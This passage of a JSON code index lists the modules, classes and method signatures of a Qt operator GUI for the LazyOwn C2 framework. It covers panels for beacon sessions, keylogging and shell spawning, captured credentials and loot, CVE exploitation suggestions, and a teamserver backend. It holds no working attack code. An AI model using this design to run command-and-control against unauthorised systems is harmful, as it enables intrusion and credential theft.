CampaignPanel(PanelBase)"}, {"doc": "Build the campaign list UI.", "kind": "method", "line": 31, "name": "__init__", "signature": "def __init__(self, constants, backend, parent)"}, {"kind": "method", "line": 99, "name": "_refresh", "signature": "def _refresh(self)"}, {"kind": "method", "line": 102, "name": "_on_campaigns_changed", "signature": "def _on_campaigns_changed(self, campaigns)"}, {"kind": "method", "line": 106, "name": "_populate_tree", "signature": "def _populate_tree(self)"}, {"kind": "method", "line": 120, "name": "_request_new_campaign", "signature": "def _request_new_campaign(self)"}, {"kind": "method", "line": 123, "name": "_request_view_campaign", "signature": "def _request_view_campaign(self)"}, {"kind": "method", "line": 126, "name": "_request_run_playbook", "signature": "def _request_run_playbook(self)"}, {"doc": "Return the number of active campaigns.", "kind": "method", "line": 133, "name": "campaign_count", "signature": "def campaign_count(self)"}]}, {"doc": "Credentials and loot panel for the operator console.  Displays captured credentials, hashes, and exfiltrated artefacts from the active backend's session data. Supports filtering and copy-on-click for credential reuse.", "id": "lazygui/panels/credentials_panel.py", "kind": "module", "label": "credentials_panel.py", "language": "py", "sha256": "daefae852dab8e0e", "symbol_count": 5, "symbols": [{"doc": "Dock widget displaying captured credentials and loot.", "kind": "class", "line": 27, "name": "CredentialsPanel", "signature": "class CredentialsPanel(PanelBase)"}, {"kind": "method", "line": 30, "name": "__init__", "signature": "def __init__(self, constants, backend, parent)"}, {"kind": "method", "line": 50, "name": "_build_ui", "signature": "def _build_ui(self)"}, {"kind": "method", "line": 95, "name": "_refresh", "signature": "def _refresh(self)"}, {"kind": "method", "line": 130, "name": "_copy_selected", "signature": "def _copy_selected(self)"}]}, {"doc": "CVE tracker panel for the operator console.  Displays known CVEs from the knowledge base with severity filtering and search. Supports lookup and exploitation suggestions.", "id": "lazygui/panels/cve_panel.py", "kind": "module", "label": "cve_panel.py", "language": "py", "sha256": "52697ea35f89d6a9", "symbol_count": 7, "symbols": [{"doc": "Dock panel listing CVEs from the knowledge base.", "kind": "class", "line": 28, "name": "CVEPanel", "signature": "class CVEPanel(PanelBase)"}, {"doc": "Build the CVE list UI with severity filter.", "kind": "method", "line": 31, "name": "__init__", "signature": "def __init__(self, constants, backend, parent)"}, {"kind": "method", "line": 102, "name": "_refresh", "signature": "def _refresh(self)"}, {"kind": "method", "line": 150, "name": "_populate_tree", "signature": "def _populate_tree(self)"}, {"kind": "method", "line": 165, "name": "_request_lookup", "signature": "def _request_lookup(self)"}, {"kind": "method", "line": 171, "name": "_request_search_exploits", "signature": "def _request_search_exploits(self)"}, {"doc": "Return the number of loaded CVEs.", "kind": "method", "line": 178, "name": "cve_count", "signature": "def cve_count(self)"}]}, {"doc": "Panel hosting the application-wide event log.", "id": "lazygui/panels/event_log_panel.py", "kind": "module", "label": "event_log_panel.py", "language": "py", "sha256": "ad551831d7db0530", "symbol_count": 3, "symbols": [{"doc": "Dock panel wrapping :class:`EventLogView` plus a level filter.", "kind": "class", "line": 24, "name": "EventLogPanel", "signature": "class EventLogPanel(PanelBase)"}, {"doc": "Compose the toolbar (level filter + clear) and the log view.", "kind": "method", "line": 27, "name": "__init__", "signature": "def __init__(self, constants, backend, event_log, parent)"}, {"doc": "Forward the new minimum level to the underlying view.", "kind": "method", "line": 69, "name": "_on_level_changed", "signature": "def _on_level_changed(self, _index)"}]}, {"doc": "Graph panel for Cobalt Strike-style attack topography visualization.  Renders the C2 beacon graph with interactive nodes, force-directed layout and context menus for beacon interaction: spawn shell, port scan, screenshot, keylog, migrate, download/upload.", "id": "lazygui/panels/graph_panel.py", "kind": "module", "label": "graph_panel.py", "language": "py", "sha256": "2b2cb7254d42aa38", "symbol_count": 7, "symbols": [{"doc": "Dock panel wrapping the interactive graph view.", "kind": "class", "line": 20, "name": "GraphPanel", "signature": "class GraphPanel(PanelBase)"}, {"doc": "Build the graph view and connect to backend topology updates.", "kind": "method", "line": 23, "name": "__init__", "signature": "def __init__(self, constants, backend, parent)"}, {"doc": "Render the new topology in the graph view.", "kind": "method", "line": 50, "name": "_on_topology_changed", "signature": "def _on_topology_changed(self, topology)"}, {"doc": "Show a Cobalt Strike-style context menu for the selected node.", "kind": "method", "line": 54, "name": "_on_node_context_menu", "signature": "def _on_node_context_menu(self, node_id, position)"}, {"doc": "Handle node selection in the graph.", "kind": "method", "line": 105, "name": "_on_node_selected", "signature": "def _on_node_selected(self, node_id)"}, {"doc": "Return human-readable info for a node by its identifier.", "kind": "method", "line": 109, "name": "_find_node_info", "signature": "def _find_node_info(self, node_id)"}, {"doc": "Return the underlying graph view for layout management.", "kind": "method", "line": 118, "name": "graph_view", "signature": "def graph_view(self)"}]}, {"doc": "Command history panel showing beacon command logs.  Reads ``sessions/<client_id>.log`` CSV files and displays command entries with output. Supports filtering by client and auto-refresh.", "id": "lazygui/panels/history_panel.py", "kind": "module", "label": "history_panel.py", "language": "py", "sha256": "713eff24c7d2ed74", "symbol_count": 4, "symbols": [{"doc": "Dock panel showing beacon command history from CSV log files.", "kind": "class", "line": 30, "name": "HistoryPanel", "signature": "class HistoryPanel(PanelBase)"}, {"doc": "Build the history viewer UI.", "kind": "method", "line": 33, "name": "__init__", "signature": "def __init__(self, constants, backend, parent)"}, {"kind": "method", "line": 87, "name": "_refresh", "signature": "def _refresh(self)"}, {"kind": "method", "line": 106, "name": "_populate", "signature": "def _populate(self)"}]}, {"doc": "Kill-chain visualization panel for the operator console.  Displays the current engagement phase and completed phases as a horizontal progress bar. Reads from ``modules.killchain.KillChain`` as the single source of truth.", "id": "lazygui/panels/killchain_panel.py", "kind": "module", "label": "killchain_panel.py", "language": "py", "sha256": "70df7226856be457", "symbol_count": 6, "symbols": [{"doc": "Import the unified killchain phase definitions lazily.", "kind": "function", "line": 23, "name": "_get_phases", "signature": "def _get_phases()"}, {"doc": "Dock widget displaying the engagement kill-chain progress.", "kind": "class", "line": 35, "name": "KillChainPanel", "signature": "class KillChainPanel(PanelBase)"}, {"kind": "method", "line": 38, "name": "__init__", "signature": "def __init__(self, constants, backend, parent)"}, {"kind": "method", "line": 62, "name": "_build_ui", "signature": "def _build_ui(self)"}, {"doc": "Pull the kill-chain snapshot and drive visuals exclusively from it.\n\nThe single source of truth is the unified ``KillChain.snapshot``\n(served by the backend over HTTP for the teamserver backend); the\npanel never derives phases locally so it cannot diverge.", "kind": "method", "line": 96, "name": "_refresh", "signature": "def _refresh(self)"}, {"kind": "method", "line": 128, "name": "_apply_visuals", "signature": "def _apply_visuals(self)"}]}, {"doc": "Panel that lists the listeners advertised by the backend.", "id": "lazygui/panels/listeners_panel.py", "kind": "module", "label": "listeners_panel.py", "language": "py", "sha256": "d56d1336ef0f0b95", "symbol_count": 6, "symbols": [{"doc": "Reactive list of :class:`Listener` rows.", "kind": "class", "line": 21, "name": "ListenersPanel", "signature": "class ListenersPanel(PanelBase)"}, {"doc": "Build the layout and subscribe to backend listener updates.", "kind": "method", "line": 24, "name": "__init__", "signature": "def __init__(self, constants, backend, parent)"}, {"doc": "Cache and rebuild rows.", "kind": "method", "line": 65, "name": "_on_listeners_changed", "signature": "def _on_listeners_changed(self, listeners)"}, {"doc": "Persist filter and re-render.", "kind": "method", "line": 70, "name": "_on_filter_changed", "signature": "def _on_filter_changed(self, text)"}, {"doc": "Rebuild the tree honouring the active filter.", "kind": "method", "line": 75, "name": "_populate_visible", "signature": "def _populate_visible(self)"}, {"doc": "Return ``True`` if the listener fields contain the filter text.", "kind": "method", "line": 95, "name": "_matches_filter", "signature": "def _matches_filter(self, listener)"}]}, {"doc": "Marketplace panel for YARA rules, Nuclei templates, YAML addons and Lua plugins.  Lists installed items from lazyaddons/*.yaml, plugins/*.lua, yara_rules/*.yar, and nuclei-templates/*.yaml. Supports search, filter, and run actions.", "id": "lazygui/panels/marketplace_panel.py", "kind": "module", "label": "marketplace_panel.py", "language": "py", "sha256": "e4b4d724d4f71760", "symbol_count": 15, "symbols": [{"doc": "Dock panel listing YARA rules, Nuclei templates, Addons and Plugins.", "kind": "class", "line": 29, "name": "MarketplacePanel", "signature": "class MarketplacePanel(PanelBase)"}, {"doc": "Build the tabbed marketplace UI.", "kind": "method", "line": 32, "name": "__init__", "signature": "def __init__(self, constants, backend, parent)"}, {"kind": "method", "line": 94, "name": "_make_tree", "signature": "def _make_tree(headers)"}, {"kind": "method", "line": 106, "name": "_refresh", "signature": "def _refresh(self)"}, {"kind": "method", "line": 112, "name": "_fetch_yara_rules", "signature": "def _fetch_yara_rules(self)"}, {"kind": "method", "line": 128, "name": "_fetch_nuclei_templates", "signature": "def _fetch_nuclei_templates(self)"}, {"kind": "method", "line": 163, "name": "_fetch_addons", "signature": "def _fetch_addons(self)"}, {"kind": "method", "line": 198, "name": "_fetch_plugins", "signature": "def _fetch_plugins(self)"}, {"kind": "method", "line": 230, "name": "_populate_yara_tree", "signature": "def _populate_yara_tree(self)"}, {"kind": "method", "line": 238, "name": "_populate_nuclei_tree", "signature": "def _populate_nuclei_tree(self)"}, {"kind": "method", "line": 250, "name": "_populate_addons_tree", "signature": "def _populate_addons_tree(self)"}, {"kind": "method", "line": 262, "name": "_populate_plugins_tree", "signature": "def _populate_plugins_tree(self)"}, {"kind": "method", "line": 270, "name": "_apply_filter", "signature": "def _apply_filter(self)"}, {"kind": "method", "line": 276, "name": "_show_selected_info", "signature": "def _show_selected_info(self)"}, {"kind": "method", "line": 287, "name": "_run_selected", "signature": "def _run_selected(self)"}]}, {"doc": "Registry that owns all dock panels.  Centralising panel instances makes the main window straightforward: it asks the registry for an iterable to attach as docks, looks panels up by identifier when wiring shortcuts, and forwards visibility toggles polymorphically.", "id": "lazygui/panels/registry.py", "kind": "module", "label": "registry.py", "language": "py", "sha256": "393c6f9a8f1d0c09", "symbol_count": 5, "symbols": [{"doc": "Holds the canonical panel instances bound to the active backend.", "kind": "class", "line": 34, "name": "PanelRegistry", "signature": "class PanelRegistry"}, {"doc": "Construct every dock panel and return them as a registry.", "kind": "method", "line": 53, "name": "build", "signature": "def build(cls, constants, backend, event_log, parent)"}, {"doc": "Return panels in canonical layout order.", "kind": "method", "line": 83, "name": "all_panels", "signature": "def all_panels(self)"}, {"doc": "Look up a panel by its stable identifier.", "kind": "method", "line": 99, "name": "by_identifier", "signature": "def by_identifier(self, identifier)"}, {"doc": "Iterate over panels in canonical order.", "kind": "method", "line": 106, "name": "__iter__", "signature": "def __iter__(self)"}]}, {"doc": "Panel that lists active sessions reported by the backend.  Supports right-click context menus for beacon interaction: spawn shell, port scan, screenshot, keylog, migrate, upload/download.", "id": "lazygui/panels/sessions_panel.py", "kind": "module", "label": "sessions_panel.py", "language": "py", "sha256": "1cfbc89d2b468057", "symbol_count": 10, "symbols": [{"doc": "Reactive list of :class:`Session` rows with context menus.", "kind": "class", "line": 39, "name": "SessionsPanel", "signature": "class SessionsPanel(PanelBase)"}, {"doc": "Build the layout and subscribe to backend session updates.", "kind": "method", "line": 45, "name": "__init__", "signature": "def __init__(self, constants, backend, parent)"}, {"doc": "Render any sessions the backend already had at construction time.", "kind": "method", "line": 87, "name": "_refresh_initial", "signature": "def _refresh_initial(self)"}, {"doc": "Cache the new snapshot and rebuild visible rows.", "kind": "method", "line": 93, "name": "_on_sessions_changed", "signature": "def _on_sessions_changed(self, sessions)"}, {"doc": "Persist the current filter text and re-render.", "kind": "method", "line": 98, "name": "_on_filter_changed", "signature": "def _on_filter_changed(self, text)"}, {"doc": "Emit ``session_selected`` for the currently highlighted row.", "kind": "method", "line": 103, "name": "_on_selection_changed", "signature": "def _on_selection_changed(self)"}, {"doc": "Double-click sets the terminal target to this session.", "kind": "method", "line": 114, "name": "_on_item_double_clicked", "signature": "def _on_item_double_clicked(self, item)"}, {"doc": "Show right-click context menu for beacon interaction.", "kind": "method", "line": 133, "name": "_on_context_menu", "signature": "def _on_context_menu(self, position)"}, {"doc": "Rebuild the tree applying the active filter.", "kind": "method", "line": 182, "name": "_populate_visible", "signature": "def _populate_visible(self)"}, {"doc": "Return ``True`` if any visible field contains the filter text.", "kind": "method", "line": 202, "name": "_matches_filter", "signature": "def _matches_filter(self, session)"}]}, {"doc": "Console panel hosting the :class:`TerminalView` with beacon command support.", "id": "lazygui/panels/terminal_panel.py", "kind": "module", "label": "terminal_panel.py", "language": "py", "sha256": "8f6bc6500b5d4083", "symbol_count": 7, "symbols": [{"doc": "Dock panel wiring :class:`TerminalView` to the active backend with beacon command support.", "kind": "class", "line": 22, "name": "TerminalPanel", "signature": "class TerminalPanel(PanelBase)"}, {"doc": "Compose the terminal view, session selector and command bar.", "kind": "method", "line": 25, "name": "__init__", "signature": "def __init__(self, constants, backend, parent)"}, {"doc": "Move keyboard focus into the terminal text area.", "kind": "method", "line": 78, "name": "focus_terminal", "signature": "def focus_terminal(self)"}, {"doc": "Select a specific beacon in the dropdown.", "kind": "method", "line": 82, "name": "set_target_session", "signature": "def set_target_session(self, session_id)"}, {"doc": "Send the typed command to the selected beacon or C2 server.", "kind": "method", "line": 90, "name": "_send_beacon_command", "signature": "def _send_beacon_command(self)"}, {"doc": "Update the session dropdown with current beacons.", "kind": "method", "line": 104, "name": "_update_session_combo", "signature": "def _update_session_combo(self, sessions)"}, {"doc": "Display beacon command results in the terminal.", "kind": "method", "line": 119, "name": "_on_beacon_result", "signature": "def _on_beacon_result(self, result)"}]}, {"doc": "Service layer.  Defines the domain types the GUI consumes and the backend abstraction that hides whether commands are issued to a local cmd2 console (PTY) or a remote LazyOwn teamserver (HTTP/WebSocket).  The :class:`Backend` Protocol is the only contract the UI knows about. New backend implementations only need to satisfy that contract to be plugged in.", "id": "lazygui/services/__init__.py", "kind": "module", "label": "__init__.py", "language": "py", "sha256": "c9e6ef4ef14c1c92", "symbol_count": 0, "symbols": []}, {"doc": "Backend abstraction.  Implements the Dependency-Inversion principle for the GUI: panels and windows only depend on :class:`Backend`, never on a concrete client. Concrete backends (``LocalPtyBackend``, ``TeamserverBackend``) translate between the abstract contract and their respective transport.  Backends inherit from :class:`QObject` so they can emit Qt signals that panels subscribe to. The signals always carry framework-agnostic dataclasses from :mod:`lazygui.services.models`.", "id": "lazygui/services/backend.py", "kind": "module", "label": "backend.py", "language": "py", "sha256": "dd2917f139661bc9", "symbol_count": 20, "symbols": [{"doc": "Lifecycle state of a backend connection.", "kind": "class", "line": 33, "name": "BackendStatus", "signature": "class BackendStatus(StrEnum)"}, {"doc": "Read-only description shown in connection dialogs.", "kind": "class", "line": 44, "name": "BackendDescriptor", "signature": "class BackendDescriptor"}, {"doc": "Abstract interface every backend implementation must satisfy.\n\nSubclasses must:\n\n* implement :meth:`start`, :meth:`stop`, :meth:`send_command`,\n  :meth:`refresh`, :meth:`resize_terminal`, :meth:`feed_terminal_input`;\n* emit ``status_changed`` whenever their connection lifecycle moves;\n* emit ``terminal_output`` whenever new bytes are available for the\n  terminal widget;\n* emit ``sessions_changed`` / ``listeners_changed`` / ``operator_changed``\n  when their snapshot of those collections changes;\n* emit ``event_logged`` to surface log lines in the GUI.\n\nSignals only carry plain Python dataclasses so the receiving widgets can\nbe tested without booting the backend.", "kind": "class", "line": 52, "name": "Backend", "signature": "class Backend(QObject)"}, {"doc": "Store the descriptor that uniquely identifies this backend.", "kind": "method", "line": 81, "name": "__init__", "signature": "def __init__(self, descriptor, parent)"}, {"doc": "Read-only identification for connection dialogs.", "kind": "method", "line": 88, "name": "descriptor", "signature": "def descriptor(self)"}, {"doc": "Current connection lifecycle state.", "kind": "method", "line": 93, "name": "status", "signature": "def status(self)"}, {"doc": "Set ``status`` and emit ``status_changed`` only on transition.", "kind": "method", "line": 97, "name": "_set_status", "signature": "def _set_status(self, new_status)"}, {"doc": "Establish whatever underlying transport this backend uses.", "kind": "method", "line": 104, "name": "start", "signature": "def start(self)"}, {"doc": "Tear the underlying transport down cleanly.", "kind": "method", "line": 108, "name": "stop", "signature": "def stop(self)"}, {"doc": "Submit ``command``, optionally scoped to ``target_session``.", "kind": "method", "line": 112, "name": "send_command", "signature": "def send_command(self, command, target_session)"}, {"doc": "Force a re-fetch of sessions, listeners and operator info.", "kind": "method", "line": 116, "name": "refresh", "signature": "def refresh(self)"}, {"doc": "Inform the backend the terminal area was resized.", "kind": "method", "line": 120, "name": "resize_terminal", "signature": "def resize_terminal(self, columns, rows)"}, {"doc": "Feed raw keystrokes typed by the operator into the terminal.", "kind": "method", "line": 124, "name": "feed_terminal_input", "signature": "def feed_terminal_input(self, data)"}, {"doc": "Return the most recent snapshot of sessions, never ``None``.", "kind": "method", "line": 128, "name": "known_sessions", "signature": "def known_sessions(self)"}, {"doc": "Return the most recent snapshot of listeners, never ``None``.", "kind": "method", "line": 132, "name": "known_listeners", "signature": "def known_listeners(self)"}, {"doc": "Return the most recent graph topology.", "kind": "method", "line": 136, "name": "known_topology", "signature": "def known_topology(self)"}, {"doc": "Return the most recent snapshot of campaigns.", "kind": "method", "line": 140, "name": "known_campaigns", "signature": "def known_campaigns(self)"}, {"doc": "Request the current world model state as a dict. Returns empty dict on failure.", "kind": "method", "line": 144, "name": "request_world_model", "signature": "def request_world_model(self)"}, {"doc": "Return the persistent command/result history for a beacon.\n\nDefault implementation returns an empty list; backends that can reach\nthe teamserver override this to fetch from the REST API.\n\nArgs:\n    client_id: The beacon id whose history is requested.\n\nReturns:\n    An ordered list of record dicts (oldest first).", "kind": "method", "line": 158, "name": "request_beacon_history", "signature": "def request_beacon_history(self, client_id)"}, {"doc": "Request the current session state (creds, hashes, loot) as a dict.", "kind": "method", "line": 172, "name": "request_session_state", "signature": "def request_session_state(self)"}]}, {"doc": "In-memory ring buffer for :class:`EventRecord`.  Centralising log retention here lets every backend feed events in and every panel observe them without coupling the two sides directly. The buffer imposes a hard cap (configured via :class:`EventLogConstants`) so a chatty backend can never starve memory.", "id": "lazygui/services/event_log.py", "kind": "module", "label": "event_log.py", "language": "py", "sha256": "43d1dbce03a5bddd", "symbol_count": 7, "symbols": [{"doc": "Bounded, thread-safe-ish ring buffer of events with Qt signalling.", "kind": "class", "line": 20, "name": "EventLog", "signature": "class EventLog(QObject)"}, {"doc": "Initialise the buffer using ``constants.event_log.max_records``.", "kind": "method", "line": 26, "name": "__init__", "signature": "def __init__(self, constants, parent)"}, {"doc": "Maximum number of records retained before the oldest is dropped.", "kind": "method", "line": 33, "name": "capacity", "signature": "def capacity(self)"}, {"doc": "Append ``record`` and emit ``record_appended``.", "kind": "method", "line": 37, "name": "append", "signature": "def append(self, record)"}, {"doc": "Append every entry in ``records`` in iteration order.", "kind": "method", "line": 42, "name": "extend", "signature": "def extend(self, records)"}, {"doc": "Drop all stored records and emit ``cleared``.", "kind": "method", "line": 47, "name": "clear", "signature": "def clear(self)"}, {"doc": "Return a defensive tuple, optionally filtered by ``minimum_level``.", "kind": "method", "line": 52, "name": "snapshot", "signature": "def snapshot(self, minimum_level)"}]}, {"doc": "Factory for backend instances.  Encapsulates the construction logic so the rest of the GUI never imports a concrete backend class. The factory keeps the GUI honoring the Open/Closed principle: adding a new backend means writing a new class and registering it here, not editing the windows or panels.", "id": "lazygui/services/factory.py", "kind": "module", "label": "factory.py", "language": "py", "sha256": "76c448b99734bf6d", "symbol_count": 4, "symbols": [{"doc": "Build :class:`Backend` instances from runtime parameters.", "kind": "class", "line": 24, "name": "BackendFactory", "signature": "class BackendFactory"}, {"doc": "Construct a local PTY-based backend.", "kind": "method", "line": 30, "name": "create_local", "signature": "def create_local(self, parent)"}, {"doc": "Construct a teamserver-based backend with the given credentials.", "kind": "method", "line": 34, "name": "create_teamserver", "signature": "def create_teamserver(self, credentials, parent)"}, {"doc": "Convenience dispatch by :class:`BackendKind`.", "kind": "method", "line": 42, "name": "create", "signature": "def create(self, kind, parent, credentials)"}]}, {"doc": "Local backend that runs the LazyOwn cmd2 console on a PTY.  This backend fork-execs a shell process inside a PTY so the GUI can render the cmd2 prompt with full ANSI semantics. It exposes the same interface as the teamserver backend so panels can switch between the two transparently.", "id": "lazygui/services/local_backend.py", "kind": "module", "label": "local_backend.py", "language": "py", "sha256": "cc7edca053305db5", "symbol_count": 20, "symbols": [{"doc": "Spawn a shell on a PTY and stream its output to the UI.\n\nThe backend cannot enumerate sessions or listeners on its own — the cmd2\nconsole prints them to the terminal and the operator parses them\nvisually. ``known_sessions`` / ``known_listeners`` therefore stay empty.", "kind": "class", "line": 30, "name": "LocalPtyBackend", "signature": "class LocalPtyBackend(Backend)"}, {"doc": "Initialise the backend with the shared constants and paths.", "kind": "method", "line": 38, "name": "__init__", "signature": "def __init__(self, constants, paths, parent)"}, {"doc": "Fork-exec the cmd2 console behind a PTY.", "kind": "method", "line": 62, "name": "start", "signature": "def start(self)"}, {"doc": "Send ``SIGTERM`` to the child and tear down notifiers.", "kind": "method", "line": 87, "name": "stop", "signature": "def stop(self)"}, {"doc": "Write ``command`` followed by a newline to the PTY.", "kind": "method", "line": 112, "name": "send_command", "signature": "def send_command(self, command, target_session)"}, {"doc": "No-op for the local backend; the operator drives data from cmd2.", "kind": "method", "line": 117, "name": "refresh", "signature": "def refresh(self)"}, {"doc": "Propagate the new size to the PTY using ``TIOCSWINSZ``.", "kind": "method", "line": 121, "name": "resize_terminal", "signature": "def resize_terminal(self, columns, rows)"}, {"doc": "Encode ``data`` and write it to the master end of the PTY.", "kind": "method", "line": 127, "name": "feed_terminal_input", "signature": "def feed_terminal_input(self, data)"}, {"doc": "Local backend does not enumerate sessions.", "kind": "method", "line": 137, "name": "known_sessions", "signature": "def known_sessions(self)"}, {"doc": "Local backend does not enumerate listeners.", "kind": "method", "line": 141, "name": "known_listeners", "signature": "def known_listeners(self)"}, {"doc": "Replace the forked child with ``run`` inside the project root.", "kind": "method", "line": 147, "name": "_exec_child_process", "signature": "def _exec_child_process(self)"}, {"doc": "Mark the master fd non-blocking so reads can be polled.", "kind": "method", "line": 156, "name": "_configure_master_fd", "signature": "def _configure_master_fd(self)"}, {"doc": "Send the current terminal dimensions to the PTY.", "kind": "method", "line": 163, "name": "_install_window_size", "signature": "def _install_window_size(self)"}, {"doc": "Wire a ``QSocketNotifier`` to fire when the PTY has output.", "kind": "method", "line": 173, "name": "_install_read_notifier", "signature": "def _install_read_notifier(self)"}, {"doc": "Periodically waitpid() to detect when the cmd2 console exits.", "kind": "method", "line": 180, "name": "_install_reaper", "signature": "def _install_reaper(self)"}, {"doc": "Drain the PTY into ``terminal_output`` until ``EAGAIN``.", "kind": "method", "line": 187, "name": "_on_master_readable", "signature": "def _on_master_readable(self)"}, {"doc": "Close the master fd once the child closes its end.", "kind": "method", "line": 215, "name": "_handle_pty_eof", "signature": "def _handle_pty_eof(self)"}, {"doc": "Detect child termination so the UI can show the disconnected state.", "kind": "method", "line": 220, "name": "_reap_child", "signature": "def _reap_child(self)"}, {"doc": "Forward a structured log line to the GUI event log.", "kind": "method", "line": 235, "name": "_emit_event", "signature": "def _emit_event(self, level, message)"}, {"doc": "Emit a synthetic :class:`Operator` describing the local user.", "kind": "method", "line": 249, "name": "announce_local_operator", "signature": "def announce_local_operator(self)"}]}, {"doc": "Immutable domain types consumed by the UI.  These dataclasses are deliberately framework-agnostic. They never carry Qt references so they can be created from threads or background workers without touching the GUI loop. Widgets adapt them at the edge.", "id": "lazygui/services/models.py", "kind": "module", "label": "models.py", "language": "py", "sha256": "a7ffbafeb7aca4cf", "symbol_count": 15, "symbols": [{"doc": "Stable identifiers for the backend implementations.", "kind": "class", "line": 17, "name": "BackendKind", "signature": "class BackendKind(StrEnum)"}, {"doc": "Severity levels for :class:`EventRecord`. Order matters for filtering.", "kind": "class", "line": 24, "name": "EventLevel", "signature": "class EventLevel(StrEnum)"}, {"doc": "A connected implant/session as reported by the backend.", "kind": "class", "line": 49, "name": "Session", "signature": "class Session"}, {"doc": "A C2 listener (HTTP/HTTPS/DNS/TCP) advertised by the backend.", "kind": "class", "line": 64, "name": "Listener", "signature": "class Listener"}, {"doc": "An operator account known to the teamserver.", "kind": "class", "line": 76, "name": "Operator", "signature": "class Operator"}, {"doc": "A single line in the event log.", "kind": "class", "line": 87, "name": "EventRecord", "signature": "class EventRecord"}, {"doc": "A node in the attack topography graph.", "kind": "class", "line": 102, "name": "GraphNode", "signature": "class GraphNode"}, {"doc": "An edge connecting two graph nodes.", "kind": "class", "line": 115, "name": "GraphEdge", "signature": "class GraphEdge"}, {"doc": "Complete graph topology from the teamserver.", "kind": "class", "line": 126, "name": "Topology", "signature": "class Topology"}, {"doc": "Aggregated dashboard data from ``/api/dashboard``.", "kind": "class", "line": 139, "name": "DashboardPayload", "signature": "class DashboardPayload"}, {"doc": "Campaign status from the backend.", "kind": "class", "line": 151, "name": "CampaignSummary", "signature": "class CampaignSummary"}, {"doc": "Command result returned by a beacon.", "kind": "class", "line": 164, "name": "BeaconResult", "signature": "class BeaconResult"}, {"doc": "Numeric rank used to compare severity.", "kind": "method", "line": 34, "name": "numeric", "signature": "def numeric(self)"}, {"doc": "Construct a record stamped with the current UTC time.", "kind": "method", "line": 96, "name": "now", "signature": "def now(cls, level, source, message)"}, {"doc": "Return an empty topology.", "kind": "method", "line": 133, "name": "empty", "signature": "def empty(cls)"}]}, {"doc": "Teamserver backend with Socket.IO real-time and full HTTP API coverage.  Connects to ``lazyc2.py`` via HTTP REST + Socket.IO WebSocket. The backend provides bidirectional terminal access, beacon command/result flow, graph topology streaming, dashboard aggregation, listener management and campaign tracking. Fault-tolerant with automatic reconnection and graceful degradation.", "id": "lazygui/services/teamserver_backend.py", "kind": "module", "label": "teamserver_backend.py", "language": "py", "sha256": "28e872fb2d8c5f10", "symbol_count": 46, "symbols": [{"doc": "Connection parameters for :class:`TeamserverBackend`.", "kind": "class", "line": 39, "name": "TeamserverCredentials", "signature": "class TeamserverCredentials"}, {"doc": "Real-time backend communicating with ``lazyc2.py`` over HTTP + Socket.IO.", "kind": "class", "line": 48, "name": "TeamserverBackend", "signature": "class TeamserverBackend(Backend)"}, {"doc": "Store ``credentials`` and prepare polling timers and Socket.IO client.", "kind": "method", "line": 51, "name": "__init__", "signature": "def __init__(self, constants, credentials, parent)"}, {"doc": "Begin polling and establish Socket.IO connection.\n\nFirst authenticates via the C2 login form to obtain a Flask session\ncookie. Then starts HTTP polling and Socket.IO after authentication\ncompletes, so the WebSocket upgrade carries the session cookie.", "kind": "method", "line": 80, "name": "start", "signature": "def start(self)"}, {"doc": "Tear down all timers and Socket.IO connection.", "kind": "method", "line": 97, "name": "stop", "signature": "def stop(self)"}, {"doc": "Submit ``command`` via Socket.IO PTY (global) or ``/issue_command`` (beacon).\n\nGlobal commands go through Socket.IO ``/pty`` to reach the PTY\ndirectly and bypass CSRF. Beacon commands POST to ``/issue_command``\nwhich the implant polls.", "kind": "method", "line": 112, "name": "send_command", "signature": "def send_command(self, command, target_session)"}, {"doc": "Pull consolidated state JSON and emit derived signals.", "kind": "method", "line": 124, "name": "refresh", "signature": "def refresh(self)"}, {"doc": "Forward resize to Socket.IO PTY namespace when connected.", "kind": "method", "line": 139, "name": "resize_terminal", "signature": "def resize_terminal(self, columns, rows)"}, {"doc": "Feed keystrokes to the PTY via Socket.IO, falling back to HTTP commands.\n\nSocket.IO ``/pty`` namespace sends raw input directly to the PTY\nand bypasses CSRF checks, so it is preferred when available.", "kind": "method", "line": 151, "name": "feed_terminal_input", "signature": "def feed_terminal_input(self, data)"}, {"doc": "Most recent snapshot delivered by the last poll.", "kind": "method", "line": 169, "name": "known_sessions", "signature": "def known_sessions(self)"}, {"doc": "Most recent snapshot delivered by the last poll.", "kind": "method", "line": 173, "name": "known_listeners", "signature": "def known_listeners(self)"}, {"doc": "Most recent graph topology snapshot.", "kind": "method", "line": 177, "name": "known_topology", "signature": "def known_topology(self)"}, {"doc": "Most recent campaign snapshot.", "kind": "method", "line": 181, "name": "known_campaigns", "signature": "def known_campaigns(self)"}, {"doc": "Fetch stored command results for a specific beacon.", "kind": "method", "line": 185, "name": "request_beacon_results", "signature": "def request_beacon_results(self, client_id)"}, {"doc": "Fetch the unified kill-chain snapshot from the teamserver REST API.\n\nOverrides the base local-file implementation so the remote state is\nthe single source of truth for the GUI kill-chain panel.", "kind": "method", "line": 210, "name": "request_world_model", "signature": "def request_world_model(self)"}, {"doc": "Fetch the persistent ordered command/result history for a beacon.\n\nArgs:\n    client_id: The beacon id whose history is requested.\n\nReturns:\n    A list of record dicts (oldest first), or [] on failure.", "kind": "method", "line": 224, "name": "request_beacon_history", "signature": "def request_beacon_history(self, client_id)"}, {"doc": "Periodically poll ``/get_results`` and emit ``beacon_result`` for new data.\n\nCompares each client_id's last command against a cached snapshot\nto avoid re-emitting stale data on every poll cycle.", "kind": "method", "line": 242, "name": "_poll_beacon_results", "signature": "def _poll_beacon_results(self)"}, {"doc": "Authenticate with the C2 via the login form to obtain a session cookie.\n\nFlask-Login requires a session cookie for Socket.IO namespace access.\nA form POST to ``/login`` authenticates the operator and sets the\nsession cookie on the ``requests.Session``, which is then forwarded\nto the Socket.IO upgrade request.", "kind": "method", "line": 285, "name": "_establish_flask_session", "signature": "def _establish_flask_session(self)"}, {"kind": "method", "line": 302, "name": "_build_http_session", "signature": "def _build_http_session(self)"}, {"kind": "method", "line": 312, "name": "_build_url", "signature": "def _build_url(self, path)"}, {"kind": "method", "line": 318, "name": "_http_get_json", "signature": "def _http_get_json(self, path)"}, {"kind": "method", "line": 332, "name": "_http_post_form", "signature": "def _http_post_form(self, path, payload)"}, {"kind": "method", "line": 346, "name": "_post_session_command", "signature": "def _post_session_command(self, command, client_id)"}, {"doc": "Send a command through the Socket.IO ``/pty`` namespace.\n\nBypasses CSRF entirely because Socket.IO authentication is handled\nat connection time. Falls back to emitting the command attempt as an\nevent when the Socket.IO client is not connected.", "kind": "method", "line": 357, "name": "_send_command_via_pty", "signature": "def _send_command_via_pty(self, command)"}, {"kind": "method", "line": 378, "name": 